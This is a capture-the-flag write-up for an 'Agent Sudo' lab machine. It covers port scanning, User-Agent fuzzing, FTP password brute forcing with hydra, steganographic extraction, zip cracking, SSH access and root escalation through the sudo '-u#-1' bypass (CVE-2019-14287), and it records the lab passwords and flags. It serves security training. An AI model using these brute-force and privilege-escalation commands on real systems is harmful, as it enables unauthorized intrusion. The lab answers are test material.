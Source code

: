 ====Agent Sudo Flutter July 24 2021====

'IP 10.10.219.45</br>
	> export IP=10.10.219.45'</br>
'MYIP 10.10.213.35</br>
	> export MYIP=10.10.213.35'

# Recon #

----------------
	Scanning
----------------

- nmap -sV -sC -T5 -oN nmap_initial $IP

'''
21/tcp open  ftp     vsftpd 3.0.3

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	http-server-header: Apache/2.4.29 (Ubuntu)
	http-title: Annoucement
'''

---------------------
	Visiting Site
---------------------

'''
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
'''
//Codename? Guessing the "Agent [letter]" is what they mean

- Intercepting with Burp
	> Sniper 
		>> target field: User-Agent 
		>> wordlist of a-zA-Z 
		>> don't exclude HTTP headers and grep for "10, 20, 30, 40, 50"
			//looking for "30" for redirects but more information is always nice
			< 1 redirect found! > User-Agent: C

	> Intercept
		>> set User-Agent: C

		 '''
		 Attention chris,
		
		 Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
		
		 From,
		 Agent R
		 '''


---Possible Users---

- Chris
- R?
- J?


# Intrusion #

---ChrisFTP---

- ftp $IP
	Name: chris
	Pass: crystal

ftp > ls

	'''
	-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
	-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
	-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
	'''
	
ftp > mget To_agentJ cute-alien.jpg cutie.png
ftp > exit

//all right so we've got all Chris' files, let's see what's headers

- To_agentJ.txt	

'''
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
'''

//oh okay stenography

---Stenography---

- binwalk cutie.png -e
- ls _cutie.png.extracted

'''
365  365.zlib  8702.zip  To_agentR.txt
'''
	8702.zip is password protected
		(see #Passwords#)

- 7z e 8702.zip
	> pass: alien
- To_agentR.txt

'''
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
'''
	> QXJlYTUx
		(see #Passwords#)


- steghide extract -sf cute-alien.jpg > message.txt
	pass: Area51
		(see #Passwords#)
	

- message.txt

'''
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
'''


---SSH---

- ssh james@$IP
	pass: hackerrules!

- ls

'''
Alien_autospy.jpg  user_flag.txt
'''

**Flag Found**
	/home/james/user_flag.txt: <b03d975e8c92a7c04146cfa7a5a313c7>



#PrivEsc

- sudo -l
	> password protected, tried "hackerrules!" and succeeded
	
	"(ALL, !root) /bin/bash"

- searching "(ALL, !root) /bin/bash"
	CVE: 2019-14287
	"sudo -u#-1 /bin/bash"

- root gain

**Flag Found**
	/root/root.txt: <b53a02f55b57d4439e3341834d70c062>



# Passwords #

----------------
	Cracking
----------------

- chris' ftp
	hydra -l chris -P rockyou.txt $IP ftp -o chris_pass
	pass: crystal

- 8702.zip
	zip2john steno/_cutie.png.extracted/8702.zip > 8702john
	john 8702john
	pass: alien

- QXJlYTUx
	CyberChef
	base64: Area51

---------------
	Exposed
---------------

- message.txt
	user: james
 	pass: hackerrules!

